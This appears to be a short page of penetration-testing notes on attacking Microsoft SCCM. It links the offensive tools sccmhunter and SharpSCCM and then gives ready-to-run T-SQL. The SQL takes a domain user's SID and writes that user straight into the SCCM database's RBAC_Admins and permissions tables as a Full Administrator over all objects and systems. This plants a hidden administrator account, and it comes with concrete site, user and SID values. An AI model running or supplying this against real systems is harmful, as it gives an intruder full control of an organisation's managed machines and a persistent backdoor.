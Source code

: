 # SCCM

## Tools

[sccmhunter](https://github.com/garrettfoster13/sccmhunter/wiki/admin) - remote actions to sccm site

[SharpSCCM ](https://github.com/Mayyhem/SharpSCCM)- portable tool to postexploit&#x20;



## Postexploit

If we got database sccm, we can manually add admin. Firstly get SID:

```sql
USE CM_<SITE_CODE>;
GO

DECLARE @binSID VARBINARY(85) = SUSER_SID('ICG\r_horse');
SELECT '0x' + SUBSTRING(sys.fn_varbintohexstr(@binSID), 3, 100) AS HexSID;

```

And now add admin

```sql
USE CM_ICG; -- ICG is site code
GO

INSERT INTO RBAC_Admins
  (AdminSID, LogonName, IsGroup, IsDeleted, CreatedBy, CreatedDate, ModifiedBy, ModifiedDate, SourceSite)
SELECT
  0x010500000000000515000000e2451490860880eb2477c972a5040000,         -- binary SID user in hex
  'icg\r_horse',                                                     -- login in format DOMAIN\User
  0,                                                                   
  0,                                                                   
  '', GETDATE(),                                                      -- CreatedBy/CreatedDate
  '', GETDATE(),                                                      -- ModifiedBy/ModifiedDate
  'ICG'                                                       -- Site Code
WHERE NOT EXISTS (
  SELECT 1 FROM RBAC_Admins WHERE LogonName = 'ICG\r_horse'
);  


DECLARE @AdminID INT = (
  SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'icg\r_horse'
);


INSERT INTO RBAC_ExtendedPermissions (AdminID, RoleID, ScopeID, ScopeTypeID)
SELECT
  @AdminID,
  V.RoleID,
  V.ScopeID,
  V.ScopeTypeID
FROM (VALUES
  ('SMS0001R', 'SMS00ALL', 29),    -- Full Admin на All Objects
  ('SMS0001R', 'SMS00001', 1)      -- Full Admin на All Systems
) AS V(RoleID, ScopeID, ScopeTypeID)
WHERE NOT EXISTS (
  SELECT 1
  FROM RBAC_ExtendedPermissions
  WHERE AdminID = @AdminID
    AND RoleID = V.RoleID
    AND ScopeID = V.ScopeID
    AND ScopeTypeID = V.ScopeTypeID
);
GO

```
